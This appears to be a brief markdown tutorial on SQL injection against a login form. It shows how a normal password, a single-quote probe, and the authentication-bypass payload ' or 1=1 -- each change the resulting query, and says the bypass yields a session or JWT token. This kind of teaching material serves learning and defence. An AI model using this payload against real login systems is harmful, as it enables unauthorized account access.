 # SQL Injection

Password:

```
password
```

Result:

```sql
SELECT *
FROM users
WHERE
    email = 'user@email.com'
    AND pass  = 'password' LIMIT 1
```

---

Use this to check for vulnerability.

Password:

```
'
```

Result:

```sql
SELECT *
FROM users
WHERE
    email = 'user@email.com'
    -- ERROR
    AND pass  = ''' LIMIT 1
```

---

This returns a session / JWT token

Password:

```sql
' or 1=1 --
```

Result:

```sql
SELECT *
FROM users
WHERE
    email = 'user@email.com'
    AND pass  = '' or 1=1 --' LIMIT 1

```
